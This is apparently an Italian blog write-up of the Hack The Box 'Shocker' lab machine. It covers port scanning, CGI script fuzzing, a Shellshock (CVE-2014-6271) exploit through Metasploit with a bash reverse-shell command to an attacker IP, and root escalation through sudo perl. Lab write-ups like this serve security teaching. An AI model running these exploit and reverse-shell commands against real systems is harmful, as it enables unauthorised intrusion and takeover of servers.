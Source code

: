 ```yaml
---
title: Shocker Walkthrough
description: Shocker, sebbene complessivamente piuttosto semplice, dimostra la gravità della famosa vulnerabilità Shellshock, che ha colpito milioni di server esposti pubblicamente.
author: dua2z3rr
date: 2025-10-22 1:00:00
categories: [Machines]
tags: ["Area di Interesse: Vulnerability Assessment", "Area di Interesse: Software & OS exploitation", "Area di Interesse: Security Tools", "Vulnerabilità: Remote Code Execution", "Codice: Bash", "Codice: Perl"]
image: /assets/img/shocker/shocker-resized.png
---
```


## Enumerazione Esterna

### Nmap

Cominciamo con uno scan delle porte.

```shell
┌─[dua2z3rr@parrot]─[~]
└──╼ $sudo nmap 10.10.10.56 -vv -p-
<SNIP>
PORT     STATE SERVICE      REASON
80/tcp   open  http         syn-ack ttl 63
2222/tcp open  EtherNetIP-1 syn-ack ttl 63

<SNIP>

┌─[dua2z3rr@parrot]─[~]
└──╼ $sudo nmap 10.10.10.56 -vv -p 80,2222 -sC -sV
<SNIP>
PORT     STATE SERVICE REASON         VERSION
80/tcp   open  http    syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD POST
2222/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQD8ArTOHWzqhwcyAZWc2CmxfLmVVTwfLZf0zhCBREGCpS2WC3NhAKQ2zefCHCU8XTC8hY9ta5ocU+p7S52OGHlaG7HuA5Xlnihl1INNsMX7gpNcfQEYnyby+hjHWPLo4++fAyO/lB8NammyA13MzvJy8pxvB9gmCJhVPaFzG5yX6Ly8OIsvVDk+qVa5eLCIua1E7WGACUlmkEGljDvzOaBdogMQZ8TGBTqNZbShnFH1WsUxBtJNRtYfeeGjztKTQqqj4WD5atU8dqV/iwmTylpE7wdHZ+38ckuYL9dmUPLh4Li2ZgdY6XniVOBGthY5a2uJ2OFp2xe1WS9KvbYjJ/tH
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBPiFJd2F35NPKIQxKMHrgPzVzoNHOJtTtM+zlwVfxzvcXPFFuQrOL7X6Mi9YQF9QRVJpwtmV9KAtWltmk3qm4oc=
|   256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIC/RjKhT/2YPlCgFQLx+gOXhC6W3A3raTzjlXQMT8Msk
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

> Nel primo scan, vediamo che sulla porta 2222 viene rilevato il servizio `EtherNetIP-1`. Questo tuttavia è scorretto, perchè in realtà è presente **ssh**. Il primo risultato è diverso da ssh perchè è il servizio di default assegnato dalla **IANA** a quella porta.
{: .prompt-info }

### HTTP

Andando sulla porta 80 ci ritroviamo con una pagina particolare.

![Desktop View](/assets/img/shocker/shocker-dont-bug-me.png)

Non è definitamente ciò che mi aspettavo.

### Fuff

Procediamo al fuzzing del sito.

```shell
┌─[✗]─[dua2z3rr@parrot]─[~]
└──╼ $ffuf -w SecLists/Discovery/Web-Content/DirBuster-2007_directory-list-lowercase-2.3-big.txt:FUZZ -u 'http://10.10.10.56/FUZZ/' -ic 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.10.56/FUZZ/
 :: Wordlist         : FUZZ: /home/dua2z3rr/SecLists/Discovery/Web-Content/DirBuster-2007_directory-list-lowercase-2.3-big.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

cgi-bin                 [Status: 403, Size: 294, Words: 22, Lines: 12, Duration: 146ms]
                        [Status: 200, Size: 137, Words: 9, Lines: 10, Duration: 119ms]
icons                   [Status: 403, Size: 292, Words: 22, Lines: 12, Duration: 109ms]
```

> Attivare la ricorsione non fa vedere le directory desiderate.
{: .prompt-danger }

### Enumerazione script

Utilizzando una wordlist di piccole dimensioni che potrebbe contenere i nomi degli script, enumeriamo gli script sul sito.

```shell
┌─[dua2z3rr@parrot]─[~]
└──╼ $ffuf -w /usr/share/wordlists/dirb/small.txt -u http://10.10.10.56/cgi-bin/FUZZ.sh -ic

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.10.56/cgi-bin/FUZZ.sh
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/small.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

user                    [Status: 200, Size: 119, Words: 19, Lines: 8, Duration: 63ms]
:: Progress: [959/959] :: Job [1/1] :: 694 req/sec :: Duration: [0:00:01] :: Errors: 0 ::
```

Esiste lo script **user.sh**

### Reverse Engineering

Visitando tramite browser lo script, otteniamo questo:

```text
Content-Type: text/plain

Just an uptime test script

 11:58:33 up 31 min,  0 users,  load average: 0.00, 0.00, 0.00
```

Dopo una breve ricerca, scopriamo che si tratta dell'output del comando **uptime**.

### Exploit

Possiamo usare il modulo di metasploit **scanner/http/apache_mod_cgi_bash_env** con queste opzioni:

```shell
[msf](Jobs:0 Agents:0) auxiliary(scanner/http/apache_mod_cgi_bash_env) >> options

Module options (auxiliary/scanner/http/apache_mod_cgi_bash_env):

   Name       Current Setting                                Required  Description
   ----       ---------------                                --------  -----------
   CMD        /bin/bash -i >& /dev/tcp/10.10.16.9/9001 0>&1  yes       Command to run (absolute paths required)
   CVE        CVE-2014-6271                                  yes       CVE to check/exploit (Accepted: CVE-2014-6271, CVE-2014-6278)
   HEADER     User-Agent                                     yes       HTTP header to use
   METHOD     GET                                            yes       HTTP method to use
   Proxies                                                   no        A proxy chain of format type:host:port[,type:host:port][...]. Supported proxies: socks4, socks5, sapni, socks5h, http
   RHOSTS     10.10.10.56                                    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      80                                             yes       The target port (TCP)
   SSL        false                                          no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /cgi-bin/user.sh                               yes       Path to CGI script
   THREADS    1                                              yes       The number of concurrent threads (max one per host)
   VHOST                                                     no        HTTP server virtual host
```

Utilizzaimo il comando `nc -lnvp 9001` e eseguiamo l'exploit. Otteniamo una reverse shell.

```shell
┌─[✗]─[dua2z3rr@parrot]─[~]
└──╼ $nc -lnvp 9001
Listening on 0.0.0.0 9001

Connection received on 10.10.10.56 47902
bash: no job control in this shell
shelly@Shocker:/usr/lib/cgi-bin$ whoami
whoami
shelly
```

Prendiamo la user flag.

## Shell come shelly

### Enumerazione Interna

Usiamo il comando `sudo -l` per vedere i comandi che possiamo eseguire come root.

```shell
shelly@Shocker:/usr/lib/cgi-bin$ sudo -l
sudo -l
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
```

Possiamo eseguire perl come root.

### Privilege Escalation

Eseguiamo una semplice privilege escalation creando una shell tramite perl.

```shell
shelly@Shocker:/usr/lib/cgi-bin$ sudo /usr/bin/perl -e 'exec "/bin/sh";'
sudo /usr/bin/perl -e 'exec "/bin/sh";'
whoami
root
```

Prendiamo la root flag e terminiamo la box.
